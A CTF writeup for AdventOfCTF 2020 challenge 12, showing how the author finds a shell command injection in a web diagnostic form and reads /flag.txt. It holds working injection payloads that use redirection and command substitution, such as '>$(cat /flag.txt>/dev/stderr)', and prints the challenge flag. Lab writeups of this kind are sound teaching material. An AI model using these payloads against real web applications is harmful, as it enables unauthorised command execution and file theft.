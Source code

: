 +++
author = "Maik de Kruif"
title = "Command"
subtitle = "Challenge 12 - AdventOfCTF"
date = 2020-12-14T15:55:21+01:00
description = "A writeup for challenge 12 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/af3424cd215a6459494ae07eab33cb35.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_12"
]
+++

- Points: 1200

## Description

To ensure a good Christmas we implemented some diagnostic tools. This one checks that the time to a destination is within an acceptable range. The flag is in /flag.txt.

Visit <https://12.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website we're greeted with an input field and a check button. Let's enter some text in the input and press the check button. Initially, nothing happens but after a few seconds we get a result: `1607956922.306628 Destination check was OK`. As the page didn't reload there is probably some javascript in play. Indeed there is, when opening the source, we find a script tag with the following javascript function:

```js
function send() {
  let place = $("#place")[0].value;
  if (place.length > 0) {
    $.post("/", { place: place }, function (data) {
      $("#result")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
  return false;
}
```

If we analyze this function a bit we find that it executes a `POST` request to `/` and puts the result in an HTML element with this selector: `'#result'`.

Let's try some more inputs. Just plain text doesn't seem to change the result much besides the number before "Destination check". If we, however, enter a quote (`"`), we get a different result back:

```text
Something happened: /bin/bash: -c: line 0: unexpected EOF while looking for matching `"'
/bin/bash: -c: line 1: syntax error: unexpected end of file
```

And inputting a backtick (`) returns this error:

```text
Something happened: BusyBox v1.31.1 () multi-call binary.

Usage: nslookup [-type=QUERY_TYPE] [-debug] HOST [DNS_SERVER]

Query DNS about HOST

QUERY_TYPE: soa,ns,a,aaaa,cname,mx,txt,ptr,any
```

### nslookup

I spend quite some time trying to find a way to get out of this command but I could not get anything to work so I took a break.

### Redirection

When I came back, I tried inputting a redirect character (`>`) and it gave a result!

## Getting some output

After entering a redirection character (`>`) we get the following result:

```text
Something happened: /bin/bash: -c: line 0: syntax error near unexpected token `newline'
/bin/bash: -c: line 0: `./check &gt;'
```

This means we can redirect output and thus get arbitrary code execution by putting a sub-command as the output like so:

```bash
> $(ls)
```

But entering this gave an error:

```text
Something happened: /bin/bash: $(ls): ambiguous redirect
```

This means that, while it does work, it does not work directly as the output isn't valid. If we, however, put a sub-command inside a sub-command (`> $($(ls))`), the inner output will be printed:

```text
Something happened: /bin/bash: app.py: command not found
/bin/bash: $($(ls)): ambiguous redirect
```

As we can see, there seems to be an `app.py` file but we don't care about it now. Let's try to cat the flag from the location specified in the challenge description (`/flag.txt`) by entering the following input: `>$($(cat /flag.txt))`. This return the following result:

```text
Something happened: /bin/bash: Congratulations,: command not found
/bin/bash: $($(cat /flag.txt)): ambiguous redirect
```

As we can see, it did read the file. Sadly, however, it only returned the first line...

At this point, I didn't really know what to do but just as I was about to take another break, [@credmp](https://twitter.com/credmp) posted a hint on Twitter. It said the following: "Hint: all error messages are printed on stderr.".

### Redirecting the output

After reading this tweet, I tried the following input: `>$(cat /flag.txt>/dev/stderr)` and it immediately worked! I felt pretty stupid for not having thought about that 😐.

## Solution

So redirecting the output to `stderr` worked and we got the flag: `NOVI{we_are_halfway_to_christmas!}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#12-13).
